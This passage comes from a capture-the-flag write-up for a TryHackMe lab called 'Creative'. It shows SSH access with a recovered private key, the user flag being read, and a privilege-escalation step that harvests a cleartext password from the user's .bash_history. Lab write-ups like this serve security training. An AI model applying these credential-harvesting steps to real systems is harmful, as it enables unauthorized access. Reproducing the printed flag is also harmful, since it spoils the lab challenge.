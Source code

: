 **sweetness**
## First Access SSH (22)

We can use the key to access [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Creative]
└─$ ssh saad@creative.thm -i id_rsa                         
Enter passphrase for key 'id_rsa': 

saad@ip-10-10-193-229:~$ cat user.txt 
9a1ce90a7653d74ab98630b47b8b4a84
```

And we have the **user flag**.
# Privilege Escalation

Now we start the [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) by checking the other files,we have the [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) server script for port 1337 but we can't write to that.

We check for .bash_history for user password :

```bash
saad@ip-10-10-193-229:~$ cat .bash_history 
whoami
pwd
ls -al
ls
cd ..
sudo -l
echo "saad:MyStrongestPasswordYet$4291" > creds.txt
rm creds.txt
sudo -l
whomai
whoami
pwd
ls -al
sudo -l
ls -al
pwd
whoami
mysql -u root -p
netstat -antlp
mysql -u root
sudo su
ssh root@192.169.155.104
mysql -u user -p
mysql -u db_user -p
ls -ld /var/lib/mysql
ls -al
cat .bash_history 
cat .bash_logout 
nano .bashrc 
ls -al

```
